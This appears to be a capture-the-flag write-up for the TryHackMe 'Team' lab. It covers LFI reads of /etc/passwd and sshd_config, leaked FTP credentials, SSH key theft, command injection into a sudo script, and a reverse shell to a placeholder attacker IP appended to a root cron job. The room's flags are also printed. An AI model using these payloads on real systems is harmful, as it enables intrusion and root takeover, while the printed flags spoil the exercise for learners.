# TryHackMe — Team



**Room:** [https://tryhackme.com/room/teamcw/](https://tryhackme.com/room/teamcw/)  
**Difficulty:** Easy  
**Category:** Linux, Web, Privilege Escalation

---

## Overview

This room involves enumeration of a web server, local file inclusion exploitation, FTP credential leakage, SSH key extraction, and two-stage privilege escalation via a vulnerable bash script and a writable cron job script.

---

## Reconnaissance

### Nmap Scan

```bash
nmap -sV -vv 10.48.142.156 -oN nmap_result
```



The scan reveals open ports including FTP, SSH and HTTP (Apache2).

---

## Web Enumeration

### Apache Default Page and Virtual Host Discovery

Navigating to the IP returns the Apache2 Ubuntu default page. The page source reveals the hostname `team.thm`.



Add the virtual host to `/etc/hosts`:

```bash
sudo nano /etc/hosts
# Add the following line:
10.48.142.156   team.thm
```

Navigate to `http://team.thm/`:


### Directory Brute-Force

```bash
gobuster dir -u http://team.thm/ -w wordlist
```



Notable findings:

```
/assets      (Status: 301)
/images      (Status: 301)
/robots.txt  (Status: 200)
/scripts     (Status: 301) → 403 Forbidden
```

`/robots.txt` contains a single word: `dale` — a likely username.

### Fuzzing the /scripts Directory

```bash
gobuster dir -u http://team.thm/scripts/ -w /usr/share/wordlists/dirb/common.txt -x php,txt,js -t 50
```



A file `script.txt` is found and accessible.



The file is a bash FTP script with redacted credentials. A comment at the bottom notes:

```
# Note to self had to change the extension of the old "script" in this folder, as it has creds in
```

Testing the `.old` extension reveals the original script with credentials:

```
http://team.thm/scripts/script.old
```



**FTP Credentials recovered:**

```
Username: ftpuser
Password: T3@m$h@r3
```

---

## FTP Access

```bash
ftp 10.48.142.156
```

Log in with the credentials above and retrieve `New_site.txt`:



Contents of `New_site.txt`:

```
Dale
        I have started coding a new website in PHP for the team to use, this is currently under
        development. It can be found at ".dev" within our domain.

Also as per the team policy please make a copy of your "id_rsa" and place this in the relevent config file.

Gyles
```

Two key pieces of information:

- A new subdomain: `dev.team.thm`
- An SSH private key stored in a config file

---

## Local File Inclusion (LFI)

Add `dev.team.thm` to `/etc/hosts` and navigate to `http://dev.team.thm/`:



Clicking the link redirects to:

```
http://dev.team.thm/script.php?page=teamshare.php
```



The `page` parameter is vulnerable to LFI.

### Verify LFI

```
http://dev.team.thm/script.php?page=/etc/passwd
```



### User Flag

```
http://dev.team.thm/script.php?page=/home/dale/user.txt
```

```
THM{6Y0TXHz7c2d}
```

### SSH Private Key Extraction

The note mentioned an `id_rsa` stored in a config file. Checking `sshd_config`:

```
http://dev.team.thm/script.php?page=/etc/ssh/sshd_config
```





Copy the RSA key, remove all leading `#` characters, save as `idrsa`, and set permissions:

```bash
chmod 600 idrsa
ssh -i idrsa dale@team.thm
```

---

## Privilege Escalation — dale to gyles

Check sudo permissions:

```bash
sudo -l
```



```
User dale may run the following commands on ip-10-49-138-24:
    (gyles) NOPASSWD: /home/gyles/admin_checks
```

Inspect the script:

```bash
cat /home/gyles/admin_checks
```

```bash
#!/bin/bash
printf "Reading stats.\n"
sleep 1
printf "Reading stats..\n"
sleep 1
read -p "Enter name of person backing up the data: " name
echo $name  >> /var/stats/stats.txt
read -p "Enter 'date' to timestamp the file: " error
printf "The Date is "
$error 2>/dev/null
```

**Vulnerability:** The variable `$error` is executed directly as a shell command without sanitization.

### Exploitation

```bash
sudo -u gyles /home/gyles/admin_checks
```



When prompted for the date input, enter:

```
/bin/bash -p
```

A shell as `gyles` is obtained.



Stabilise the shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo
```

---

## Privilege Escalation — gyles to root

Review bash history:

```bash
cat .bash_history
```



A script at `/usr/local/bin/main_backup.sh` is referenced. It runs as a cron job owned by root, and the `admin` group has write access.



`gyles` is a member of the `admin` group, so the script can be modified directly.

### Reverse Shell Payload

Set up a listener:

```bash
nc -lvnp 9001
```

Append a reverse shell payload to the script:

```bash
nano /usr/local/bin/main_backup.sh
```

Add:

```bash
sh -i >& /dev/tcp/<ATTACKER_IP>/9001 0>&1
```

Wait for the cron job to execute. A root shell is received:



### Root Flag

```
THM{fhqbznavfonq}
```

---
## 🧑‍💻 Author

Morningstar- Cybersecurity Learner & CTF Player

---
